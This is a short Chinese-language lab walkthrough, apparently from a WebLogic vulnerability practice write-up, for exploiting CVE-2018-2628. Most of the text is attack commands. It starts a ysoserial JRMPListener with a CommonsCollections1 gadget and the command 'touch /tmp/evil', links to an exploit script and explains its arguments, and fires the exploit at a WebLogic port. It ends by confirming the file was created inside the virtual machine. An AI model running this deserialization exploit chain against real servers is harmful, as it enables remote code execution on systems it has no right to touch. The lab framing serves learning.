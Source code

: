 ```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

如我这为

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 23333 CommonsCollections1 'touch /tmp/evil'
```



运行[exp](https://github.com/kingkaki/Exploit-scripts/blob/master/weblogic/CVE-2018-2628.py)

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

- [victim ip]： weblogic ip
- [victim port]：weblogic 端口
- [path to ysoserial]：ysoserial地址
- [JRMPListener ip]：JRMP Server的ip
- [JRMPListener port]：JRMP Server的端口
- [JRMPClient]：有JRMPClient`或`JRMPClient2两个选项

```
python 44553.py 127.0.0.1 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.85.133 23333 JRMPClient
```

![](weblogic漏洞练习\2.gif)

然后进入虚拟机内部之后，就可看到tmp目录下生成的evil文件

![](weblogic漏洞练习\11.png)
